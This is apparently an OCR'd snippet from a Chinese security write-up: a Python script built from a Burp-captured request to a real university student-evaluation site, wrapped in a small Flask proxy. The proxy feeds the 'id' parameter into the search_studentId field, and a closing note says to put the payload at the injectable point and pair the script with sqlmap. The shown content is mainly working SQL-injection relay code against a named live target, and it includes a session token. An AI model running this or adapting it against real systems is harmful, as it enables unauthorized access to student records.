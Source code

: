```pyhton
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "https://pzxg.peizheng.edu.cn",
                     "Referer": "https://pzxg.peizheng.edu.cn/sms3/class/evaluationNew/stuEvaApplicationStuAllAddList.jsp",
                     "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "iframe", "Sec-Fetch-Mode": "navigate",
                     "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Priority": "u=4", "Te": "trailers",
                     "Connection": "close"}
    burp0_data = {"action_name": "search", "session_token": "token_key_1729053975118",
                  "search_evaluationTemplateId": "19", "search_studentId": f"{payload}", "search_commonName": '',
                  "search_naturalClassId": '', "search_name": '', "evaluationItemId": '', "search_role": '',
                  "search_auditStatue": '', "_tableColumnId": "\xe5\xad\xa6\xe5\x8f\xb7",
                  "_tableColumnId": "\xe5\xa7\x93\xe5\x90\x8d", "_tableColumnId": "\xe7\x8f\xad\xe7\xba\xa7",
                  "_tableColumnId": "\xe6\xb5\x8b\xe8\xaf\x84\xe7\xb1\xbb\xe5\x9e\x8b",
                  "_tableColumnId": "\xe5\x90\x8d\xe7\xa7\xb0", "_tableColumnId": "\xe7\xba\xa7\xe5\x88\xab",
                  "_tableColumnId": "\xe5\x88\x86\xe6\x95\xb0", "_tableColumnId": "\xe9\x99\x84\xe4\xbb\xb6",
                  "_tableColumnId": "\xe5\xae\xa1\xe6\xa0\xb8\xe7\x8a\xb6\xe6\x80\x81",
                  "_tableColumnId": "\xe6\x93\x8d\xe4\xbd\x9c", "scroll.pageSize": "10", "scroll.pageIndex": "0",
                  "sort.sortColumn": "s.XH", "sort.ascending": "true", "example1_length": "10"}
    response=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

    return response.text

app = Flask(__name__)
@app.route('/')
def login():
    playload = request.args.get("id")
    print(playload)
    html_content = remote_login(playload)
    return html_content

if __name__=='__main__':
    app.run()
```

flask转发脚本，将测试可以注入的点用payload代替即可

然后配合sqlmap使用